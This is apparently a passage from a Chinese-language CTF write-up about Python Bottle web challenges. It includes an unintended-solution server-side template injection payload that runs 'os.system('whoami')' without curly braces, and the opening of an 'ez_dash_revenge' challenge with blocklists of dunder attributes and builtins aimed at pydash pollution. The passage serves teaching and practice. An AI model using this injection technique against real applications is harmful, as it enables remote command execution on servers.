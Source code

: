 ```python
        return "no"
    if len(name)>6 or len(path)>32:
        return "no"
    value=bottle.request.json.get('value')
    return "yes" if setval(name, path, value) else "no"

@bottle.get('/render')
def render_template():
    path=bottle.request.query.get('path')
    if path.find("{")>=0 or path.find("}")>=0 or path.find(".")>=0:
        return "Hacker"
    return bottle.template(path)
bottle.run(host='0.0.0.0', port=8000)
```

非预期

bottle的ssti不一定需要{}

payload

```
<h>
 %import os;os.system('whoami')
 %end
</h>
```



### ez_dash_revenge

题目

```python
'''
Hints: Flag在环境变量中
'''


from typing import Optional


import pydash
import bottle



__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
               '__code__', '__defaults__', '__delattr__', '__dict__',
               '__dir__', '__doc__', '__eq__', '__format__',
               '__ge__', '__get__', '__getattribute__',
               '__gt__', '__hash__', '__init__', '__init_subclass__',
               '__kwdefaults__', '__le__', '__lt__', '__module__',
               '__name__', '__ne__', '__new__', '__qualname__',
               '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
               '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
               "Optional","render"
               ]
__forbidden_name__=[
    "bottle"
]
__forbidden_name__.extend(dir(globals()["__builtins__"]))

def setval(name:str, path:str, value:str)-> Optional[bool]:
    if name.find("__")>=0: return False
    for word in __forbidden_name__:
```